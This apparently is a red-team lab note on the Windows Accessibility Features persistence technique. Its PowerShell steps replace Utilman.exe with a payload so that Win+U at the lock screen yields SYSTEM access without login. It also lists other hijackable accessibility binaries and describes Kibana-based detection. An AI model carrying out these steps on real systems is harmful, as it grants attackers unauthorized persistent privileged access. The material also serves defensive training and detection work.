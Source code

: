 # [Accessibility Features](https://attack.mitre.org/techniques/T1546/008/)

## **Exploit syntax:**

1. Get a beacon with `system` privileges. 

2. Put a payload on the victim box if it's not already present.

3. In parrot open a blank text file and paste the following commands into it and choose either to move or copy the payload on the third line then set the `<payload path>` to the payload location on the victim box
   
    ```powershell
    takeown /f c:\windows\system32\Utilman.exe /A;
	icacls c:\windows\system32\Utilman.exe /grant administrators:F;
	rm c:\windows\system32\utilman.exe;
	<move/copy> <payload path> c:\windows\system32\Utilman.exe;
    ```
4. Save the file with as` NoobNoob.ps1` to `/tmp` on parrot-vm
5. Run
	```sh
	sudo chmod +x /tmp/NoobNoob.ps1
	```

6.  In posh, run
    ```pwoershell
	pslo /tmp/NoobNoob.ps1
    ```
7. From the login lockscreen of the windows box, press the windows key and 'U'
and the payload will execute. No login is required. Should give you System privileges.   

  
### **Affected Programs**
| Description        | Executable        | Keyboard Shortcut         |
|--------------------|-------------------|---------------------------|
| Sticky Keys        | sethc.exe         | Shift 5 times             |
| On-Screen Keyboard | osk.exe           | Windows + Control + U     |
| Utility Manager    | utilman.exe       | Windows + U               |
| Display Switcher   | DisplaySwitch.exe | Windows + P               |
| App Switcher       | AtBroker.exe      | Alt + Tab                 |
| Magnifier          | Magnify.exe       | Windows + +               |
| Narrator           | Narrator.exe      | Windows + Control + Enter |


---

## **Detection Technique:**

* Observe common Windows Accessibility Features executables
	* sethc.exe 
	* Utilman.exe
	* osk.exe
	* Narrator.exe
	* Magnify.exe
* Within Kibana ( Using winlogbeat-* indices ):
	* Identify process creations by filtering `event.code:1`
	* Add relevant fields to columns for search ease.
	* Correlate the `process.name` / `process.id` fields with the `process.parent.name` / `process.parent.id` fields.
	* Look at the `process.command_line` to see what the process actions were, if any.

---

## **Resources**

* https://dmfrsecurity.com/2021/09/10/accessibility-features-persistence/ 
* https://www.ired.team/offensive-security/persistence/t1015-sethc

### **Execution and Detection method explained**
* https://en.it-pirate.eu/windows-defender-atp-sticky-keys-binary-hijack-detected/